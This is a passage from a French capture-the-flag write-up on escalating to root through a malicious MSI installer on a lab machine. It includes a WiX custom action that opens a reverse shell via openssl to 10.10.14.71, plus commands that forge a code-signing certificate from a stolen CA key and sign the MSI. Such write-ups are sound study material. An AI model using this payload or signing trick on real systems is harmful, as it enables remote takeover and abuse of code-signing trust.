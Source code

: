 ```html
   </Product>
   <Fragment>
                <CustomAction Id="OurAction"
              Directory="TARGETDIR"
              ExeCommand="cmd.exe /c c:\progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.71:73 | cmd | c:\progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.71:136"
              Execute="immediate"
              Return="check" />
   </Fragment>
</Wix>
```

On réutilise le trick d'OpenSSL vu que c'est la seule chose que l'on peut apparemment utiliser sur cette machine :'D   

Il suffit d'utiliser les utilitaires *candle* et *light* comme expliqués dans l'article, on droppe le MSI dans le dossier *dev\msis*... et rien.  

[Ce fut les pires 5 minutes de toute mon histoire !](https://www.youtube.com/watch?v=GOOHTL1vTpg) (Je plaisante, ça a duré bien plus longtemps).  

En fait le certificat et la clé correspondent à une autorité de confiance, il faut donc utiliser les fichiers pour générer une nouvelle clé et utiliser cette dernière pour signer l'exécutable [comme indiqué dans ce thread Stack Overflow](https://stackoverflow.com/questions/84847/how-do-i-create-a-self-signed-certificate-for-code-signing-on-windows).  

Côté commandes ça nous donne quelque chose comme ça :  

```bash
cd c:\users\ieuser\
"c:\Program Files\Microsoft SDKs\Windows\v7.1\Bin\Cert2Spc.exe" c:\users\ieuser\MyCa.cer c:\users\ieuser\MyCa.spc
"c:\Program Files\Microsoft SDKs\Windows\v7.1\Bin\makecert.exe" -pe -n "CN=My SPC" -a sha256 -cy end -sky signature -ic c:\users\ieuser\MyCA.cer -iv c:\users\ieuser\MyCA.pvk -sv c:\users\ieuser\MySPC.pvk c:\users\ieuser\MySPC.cer
"c:\Program Files\Microsoft SDKs\Windows\v7.1\Bin\pvk2pfx.exe" -pvk c:\users\ieuser\MySPC.pvk -spc c:\users\ieuser\MySPC.cer -pfx c:\users\ieuser\MySPC.pfx
"c:\Program Files\Microsoft SDKs\Windows\v7.1\Bin\signtool.exe" sign /v /n "Me" /s SPC c:\users\ieuser\test.msi
```

Notre MSI est finalement exécuté et on obtient le flag root dans le bureau de l'utilisateur *rupal*.  

Au final
--------

Bobo la tête... Merci à *cslatt05* et *x00byte* pour leur aide précieuse avec ces foutus certificats :D   

Ça fait bizarre de terminer un CTF en n'ayant utilisé que *OpenSSL*. Il y a vraiment des sadiques ! ;-)   

Il me semble que j'avais réussi à exécuter *MSBuild* en tant que *jorge* à un moment mais je n'ai pas approfondi.

*Published March 09 2019 at 17:26*
